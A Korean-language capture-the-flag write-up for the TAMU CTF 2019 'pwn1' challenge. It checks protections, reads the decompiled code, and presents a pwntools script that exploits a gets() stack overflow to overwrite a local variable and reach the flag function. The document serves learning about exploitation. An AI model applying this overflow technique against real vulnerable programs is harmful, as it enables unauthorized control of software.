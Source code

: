 # [TAMU CTF 2019] pwn1 풀이

- checksec을 통해  보호기법 확인하기

![image](https://user-images.githubusercontent.com/59410565/117538447-31cfd900-b041-11eb-9b26-7445bedf9b31.png)

32bit 파일이고 Full RELRO, NX와 PIE가 적용되어 있다. 즉, bss 영역을 제외한 모든 부분에서 write 권한이 없어지고, 쉘의 실행을 방지한다. 또한  바이너리의 주소를 랜덤호하하여 바이너리의 특정 주소의 값을 수정하는 것과 같은 공격을 방지하고 있다. 



- IDA를 사용하여 pwn1 살펴보기

// main() 함수

![image](https://user-images.githubusercontent.com/59410565/117539384-57f77800-b045-11eb-81ec-ae6c301fb65e.png)

// print_flag()

![image](https://user-images.githubusercontent.com/59410565/117540015-2338f000-b048-11eb-8ab5-d1ca4714f1c2.png)

s의 크기는 0x3B(59), v5의 크기는 0x10(16)이다. v5의 값이 0xDEA110C8과 같아지면 답을 얻을 수 있다. 즉, strcmp()를 통해 if문을 통과한 뒤, v5에 0xDEA110C8이 들어있어야 한다. gets() 함수의 stack overflow 취약점을 이용하여 v5의 값을 바꿀 수 있을 것 같다.



- Exploit

```python
from pwn import *

p = process("./pwn1")

p.sendafter("What... is your name?","Sir Lancelot of Camelot\n")
p.sendafter("What... is your quest?","To seek the Holy Grail.\n")

payload = 'A'*(0x3b-0x10) 
payload += p32(0xdea110c8)
p.sendafter("What... is my secret", payload)

p.interactive()
```



이와 같이 v5의 값을 바꾸는데 성공했다. 그러나 error가 발생한다.

![image-20210508215510147](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210508215510147.png)

> flag.txt 파일이 없어서 오류가 나는 것 같다. 근데 내 컴퓨터에 없는게 당연하기 때문에 넘어가기로 했다 ^_^

![image-20210508215739054](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210508215739054.png)

